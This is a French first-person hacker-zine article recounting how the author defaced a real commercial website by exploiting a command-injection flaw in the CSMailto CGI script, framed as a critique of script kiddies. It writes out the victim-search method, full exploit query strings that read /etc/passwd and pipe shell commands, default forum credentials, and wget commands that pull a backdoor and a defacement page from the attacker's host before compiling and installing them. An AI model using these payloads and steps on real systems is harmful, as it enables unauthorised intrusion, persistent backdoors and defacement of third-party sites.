



Il y a pas mal de temps maintenant, alors que je commençais
à apprendre qu'elles sont les différentes failles connues
qu'utilisent les pirates, j'avais acheté le Windows News n°91
: "Pirates, la grande menace".
L'article était assez complet et décrivait bien les différents
univers de l'underground informatique. Evidemment y'avait quelques conneries...
mais pas trop 
A un moment ils parlaient des Scripts Kiddies et le titre du chapitre était
"Piratage, rien à voir avec le talent". L'article parlait de la faille
unicode et de défaçages fait en moins de 2 minutes.
A l'époque, je m'étais dit "rien à voir avec le talent"
?? ils exagèrent un peu ça doit pas être aussi facile
que ça !!
Pourtant ils avaient raison...
Voici comment j'ai défacé le site www.plionline.com en utilisant
les techniques des Scripts Kiddies.
Trouver la faille
Là vous vous dites : koi ? Comment ça comment
trouver la faille ? Commences d'abord par "Trouver le victime" !!!.
Ben en fait les SK (Script Kiddies) ne cherchent pas vraiment une victime
spéciale. Ils connaissent une faille, à partir de là
ils scannent des sites vulnérables et ils les défacent (t'as
le bon et le mauvais hacker koi LoL). Plus sérieusement ce que je
n'aime pas chez les scripts kiddies c leur manque d'éthique. Tout
ce qu'il cherchent c'est être dans le top 50 de zone-h.org.
Ils défaçent sans se soucier de qui sont leurs victimes. Un
exemple : les mecs ki on piratés Amnesty International, Greenpeace
& Co pensent impressionner la scène en faisant celà mais
tout ce qu'il réussissent à faire c'est impressionner leur
petite soeur (encore faut-il quelle ait un QI plus faible, ce ki est pas
gagné).
Bon revenu à nos moutons...
Moi la faille choisie c'est la faille CSMailto (version 1).
CSMailto c'est un script payant dévellopé par le site cgi-script.net.
Il permet d'envoyer par mail un formulaire que l'on a rempli (en quelque
sorte c'est un form action=mailto:admin@site.com mais en cgi).
Comme tous les scripts de cgi-script il a beaucoup de fonctionnalités
comme permettre à l'admin d'exécuter des commandes sur le
serveur.
Comme tous les scripts de cgi-script il est bourré de failles de
sécurité donc n'importe qui peut exécuter ces commandes.
Bien entendu tout se fait avec les droits du serveur.
Trouver une victime
Donc comment trouver des sites victimes vulnérables
à une faille CGI ?
Le script est installé par défaut dans le rep /cgi-script/CSMailto/CSMailto.cgi
et les formulaires dans /cgi-script/CSMailto/forms/
Pour trouver une simple recherche sur google suffit.
Le référencement est sans aucun doute le plus chiant.
G crée un fichier Excell (ben non pas avec OpenOffice : rapeller
vous kon fait du script kidding) dans lequel j'ai mis les url des formulaires.
Ensuite j'ai récupéré les bannières des serveurs
web de chaque site et j'ai tout mis dans le fichier Exell.
A partir de là... une centaine de sites peut-être vulnérables.
Je prends les victimes au hazard, la première qui marche je l'attaque.
Exploiter la victime
La première victime ke je trouve c'est www.plionline.com
Une vulnérabilité du script permet de s'envoyer un fichier
du serveur ou d'exécuter une commande et de se mailer l'output. Donc
g testé en m'envoyant le fichier /etc/passwd.
Pour que l'exploit marche plusieurs conditions doivent entrer en jeu. Tout
d'abord il faut que la variable form-name qui est de type hidden dans le
formulaire soit valide. Elle est simple à trouver puisque c'est le
nom du formulaire sans l'extension.
Il faut aussi que les variables en gras dans le formulaire soit présentes
lors de la requête.
De toute façon le formulaire est assez parlant sur les variables
que l'on a oublié :
Par exemple on passe au script /cgi-script/CSMailto/CSMailto.cgi
les paramêtres suivants :
form-attachment=/etc/passwd&Email=sirius_black@imel.org&VEmail=sirius_black@imel.org&FirstName=a&LastName=a&Comments=a&
Address1=a&Adresse2=a&City=a&HomePhone=31337666&State=a&Country=a&payment=a&Zip=123&order=a&LibraryName=a&
previousversion=a&form-autoresponse=YES&command=mailform&form-name=application
On obtient :
<body bgcolor=#C0C0C0>
<script language=javascript>
alert("Error. Field Occupation is required");
history.back();
</script>
Dans ce cas il faut rajouter une variable Occupation.
Pour récupérer l'output d'une commande on utilise le pipe
| :
CSMailto.cgi?form-attachment=/bin/cat%20/etc/passwd|&Email=sirius_black@imel.org&form-autoresponse=YES&command=mailform
&form-name=application&....
Je reçoit effectivement le fichier qui contient entre autre la ligne
plionline:x:521:518::/home/plionline:/bin/bashDonc les pass sont shadow. Le fichier passwd est assez grand car plionline n'est pas sur un serveur dédié mais sur le serveur d'un hébergeur commercial avec DNS & co.
Comme ça marche je balance des commandes. Tout se fait comme si on était dans le répertoire CSMailto (un pwd donne /home/www/plionline/cgi-script/CSMailto. Donc je fait des ls, ls .., ls ../../ etcaetera. Au bout d'un moment je recrée l'arborescence :
Profile_Reservation_Form.doc
Profile_Reservation_Form.pdf
Profile_Reservation_Form.txt
_private/
_vti_bin/
_vti_cnf/
_vti_inf.html
_vti_log/
_vti_pvt/
_vti_txt/
application.htm
apply-foot.htm
apply-head.htm
cgi-bin-oldzao/
cgi-script/
CSMailto/
CSMailto.cgi
MIME
README.txt
_vti_cnf
attach
bd
bd.1
color_selector.htm
export
forms/
_vti_cnf
application-ORIG.htm
application.htm
index.htm
test.htm
info.cgi
libs.cgi
setup.cgi
t
t_Form.htmt_List_Form.htm
t_Mailto_Form.htm
t_login.htm
t_show_links.htm
t_upload.htm
test.cgi
test.txt
text.txt
top.gif
u
_vti_cnf/
hax.htm
cgibin/
_vti_cnf/
apply.cgi
formmail.cgi
mailer.cgi
mailer_admin.cgi
mailer_cfg.cgi
mailer_setup.cgi
contact.htm
css_scripts/
_vti_cnf/
body.css
bookmark.js
cellhighlight.js
dull_mouseover.js
formfield-highlight.js
gradual_mo.js
link-iframe.js
popup.js
random.js
randompix.js
rollover.js
showdate.js
thought.js
toolbar.txt
tri-image-rollover.js
deposit.htm
faq.htm
faq.html
guestbook
images
index.htm
missing.html
new-apply.htm
new-contact.htm
new-options.htm
new-packet.htm
options.htm
packet.htm
packet_payment.htm
plionline-213x50.jpg
plionline-468x60.gif
plionline-88x31.gif
postinfo.html
realaudio
testimonials.htm
travel_services.htm
wusage/
wwwboard/
En rouge les trucs ki servent (ou qui peuvent servir) au
défaçage, en vert les trucs marrants.
Le uname -a donne : Linux stancehosting.propagation.net 2.4.20-ci
#12 SMP Fri Dec 13 22:52:24 CST 2002 i686 unknown
On remarque aussi le repertoire wwwboard, on essaye le login/pass par défaut
: WebAdmin:WebBoard
Evidemment ça marche. de tout évidence l'admin n'a rien à
foutre de la sécurité.
Une fois ke j'ai l'arborescence je peux voir le contenu des fichiers en
tappant l'url dans mon navigateur.
J'essaie donc quelques trucs...
Tiens un fichier html dans cgi-script/ kes qu'il fout là ?
Je demande la page avec mon browser et j'obtiens :

Ben tiens je suis pas le premier à défacer
ce site !!! (ça restera dans ma mémoire ça). En fait
l'admin a gardé un ancien défacage en souvenir, c plutôt
sympa non ? on va lui en donner un autre :p
De même je demande bd et bd.1, je tombe sur deux progs au formats
ELF dans lequel je vois les chaines "f0ul", "fuck you bitch!!!", "/bin/sh
-i", "tcp" au milieu de caractères héxa.
Au cas où vous le sauriez pas les h4x0rs lab sont des hackers brésiliens
dont les fondateurs sont USDL et f0ul, et les 5èmes du classement
zone-h.
Et révélation : ils font tourner leurs backdoors sur le port
2323.
Mais je suis pas passé par là (en plus ça marchait
pas). J'ai fait télécharger la backdoor gH-cgi. Comme son
nom l'indique c'est une backdoor cgi :) donc indétectable au niveau
des ports.
Pour celà j'ai passé au script la commande "/usr/bin/wget%20http://mon_ip/gH-cgi.c|"
Je vérifie que l'upload a réussi avec mon navigateur puis
je compile : /usr/bin/make%20gH-cgi|
et je renomme : /bin/mv%20gH-cgi gH-cgi.cgi|
J'appelle la page, ma backdoor est fonctionnelle :)

J'avais essayé de modifier l'index sans mettre une
backdoor mais ça a pas marché : l'index me renvoyait une page
d'erreur en polonais (??).
Une fois la backdoor installé, ya plus besoin de donner le chemin
complet des exécutables ; c'est plus facile :p
cd ../../;wget http://mon_ip/hacked.htm;mv hacked.htm index.htm;wget http://mon_ip/sb2.jpg
(l'image ki va avec).
Je vérifie que ça a marché :

Ke fait le script kiddie ensuite ? il se jette sur www.zone-h.org
pour référencer son hack.
Ca y est je suis dans les défaceurs du jour, au milieu d'une trentaine
de défaçages de PsychoPhobia.
Si vous faites une recherche sur www.plionline.com sur zone-h vous verrez
le défaçage des h4x0rs lab et le mien.
Conclusion
Qu'est ce que j'ai gagné ? rien !! A si g récupéré
les sources des CGI histoire de les avoir gratos (Land Of The FREE powa
!!)
Est-ce que c'était difficile ? non !!! Je peux même recommencer
si ça me chante !! J'ai mis 2 backdoor, l'admin n'en a viré
qu'une !!

Est-ce ke j'ai fait appel à mes compétences ? A part le fait
qu'il faut passer le chemin complet des exécutables aux cgis, ya
pas grand chose à savoir.
La backdoor ? récupérée sur packetstorm !! Ya juste
besoin de savoir compiler !!
C'était marrant ? Non même pas !! c'était chiant à
crever !!! Ya rien à voir sur ce site :p
Je comprends pas comment des mecs arrivent à s'enchainer tous ces
défaçages à la suite !! Si encore y'avait une touche
d'originalité ; mais non ils fouillent même pas le serveur,
ils répétent les mêmes commandes à la suite et
laissent un "single line defacement" c'est nul !! Au moins y'en
a qui font preuve d'un peu d'originalité ou d'humour.
J'espère au moins qu'ils codent des tools qui font tout le travail
à leur place sinon ils doivent se faire chier !! Ya même plus
de plaisir à hacker !!
Si j'ai écrit ce texte ce n'est pas pour me vanter
: ya aucune fierté à avoir défacé un site de
cette façon.
Non si je l'ai écrit c principalement pour vous dire de ne pas tomber
dans la facilité. On a tous révé d'être dans
ce top 50 des pirates les plus "actifs" de la planète mais
en réalité ils n'ont aucun mérite !!!
Réflechissez : quel est le vrai hacker : celui ki attaque des centaines
de sites pris au hazard en utilisant des failles archies connues ou celui
ki choisi sa victime et au boût d'un certain moment arrive à
ses fins ? Retournez coder et participez à des challenges et tout
ira bien ;)
En même temps si ce texte peut enlever des "comment on hacke
un site" des forums et ben c'est pas plus mal :p
Certaines personnes ne vont pas aimer ce texte parce qu'elles se reconnaîtront,
mais j'espère que ça permettra aux newbies de prendre la "bonne"
direction :) Etre Script Kiddie c'est ne jamais progresser.
Par contre l'admin a eu une bonne intention : elle a viré
le défaçage des h4x0rs lab et a gardé le mien : www.plionline.com/index1.html
PS : Cet article est dans sa deuxième version. La première
étant trop technique par rapport au message à passer. J'avais
par exemple codé un exploit à la con qui envoie des données
avec la méthode POST. Mais franchement je ne pense pas qu'un script
kiddie sache coder.
sirius_black